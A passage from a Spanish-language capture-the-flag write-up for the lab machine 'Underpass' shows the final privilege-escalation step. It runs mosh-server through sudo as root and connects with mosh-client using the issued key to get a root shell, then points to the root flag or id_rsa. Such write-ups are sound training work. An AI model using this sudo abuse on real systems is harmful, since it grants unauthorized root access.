 dado que el binario lo ejecutamos como root, solo debemos ejecutar una shell y conectarnos a ella

primero iniciamos un servidor o nos podemos en escucha;
```bash
sudo /usr/bin/mosh-server new -p 60000
```

nos dará una especie de key en base64 la cual tomaremos rápidamente para iniciar sesión antes de que se cierre el puerto y la ejecutaremos con:
```bash
MOSH_key=4NeC...vZFe mosh-client 127.0.0.1 60000
```

y se conectara al puerto:

<img src="/images/Writeup-underpass/Pasted image 20250504110218.png">

***Flag del sistema***

aquí puedes ir por la flag de root o por la id_rsa y tener una shell mas estable


-------------------------


nos vemos en la siguiente maquina! 

<h3>H4ck th3 W0rld</h3>
